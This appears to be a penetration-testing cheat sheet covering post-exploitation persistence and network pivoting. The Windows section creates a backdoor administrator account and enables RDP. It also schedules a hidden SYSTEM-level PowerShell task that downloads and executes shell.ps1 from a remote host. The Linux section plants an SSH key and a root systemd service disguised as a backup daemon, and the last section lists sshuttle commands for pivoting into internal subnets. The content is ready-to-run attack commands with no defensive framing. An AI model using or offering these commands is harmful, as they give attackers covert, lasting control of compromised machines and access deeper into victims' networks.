 #### Maintaining Access

##### Windows Persistence
```batch
REM Create admin user
net user backup Password123! /add
net localgroup administrators backup /add

REM Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

REM Scheduled Task
schtasks /create /tn "MyTask" /tr "C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.10.10.10:8080/shell.ps1'''))'" /sc onstart /ru System
```

##### Linux Persistence
```bash
# Add SSH key
mkdir -p ~/.ssh
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Create system service
cat > /etc/systemd/system/backupd.service << EOF
[Unit]
Description=Backup Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/usr/local/bin/backupd
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backupd
systemctl start backupd
```

#### Advanced Pivoting Techniques

##### SSHuttle Setup
```bash
# Basic usage (route all traffic)
sshuttle -r user@pivot_host 0.0.0.0/0 -x pivot_host

# Route specific subnet
sshuttle -r user@pivot_host 10.10.10.0/24

# With SSH key
sshuttle -r user@pivot_host 10.10.10.0/24 --ssh-cmd "ssh -i key"

# Multiple subnets
sshuttle -r user@pivot_host 10.10.10.0/24 192.168.1.0/24

# Exclude specific IPs
sshuttle -r user@pivot_host 10.10.10.0/24 -x 10.10.10.5
```